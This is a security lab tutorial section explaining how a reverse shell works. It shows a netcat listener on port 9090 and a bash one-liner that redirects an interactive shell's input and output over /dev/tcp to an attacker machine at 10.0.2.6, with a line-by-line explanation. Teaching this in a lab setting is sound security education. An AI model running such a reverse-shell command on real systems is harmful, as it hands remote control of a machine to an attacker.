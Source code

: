 ## 9) Informational Guidelines on Reverse Shell
---
The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line).

```bash
Attacker(10.0.2.6):$ nc -nv -l 9090 # Waiting for reverse shell
Listening on 0.0.0.0 9090Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  # Reverse shell from 10.0.2.5.
Server(10.0.2.5):$ ifconfig
ifconfig enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255 ...
```

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine's port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following:

- "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt).
- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6's port 9090. In Unix systems, stdout's file descriptor is 1.
- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.
- "2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.

In summary, the command "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1" starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the bash shell command is executed on 10.0.2.5, it connects back to the netcat process started on 10.0.2.6. This is confirmed via the "Connection from 10.0.2.5 ..." message displayed by netcat.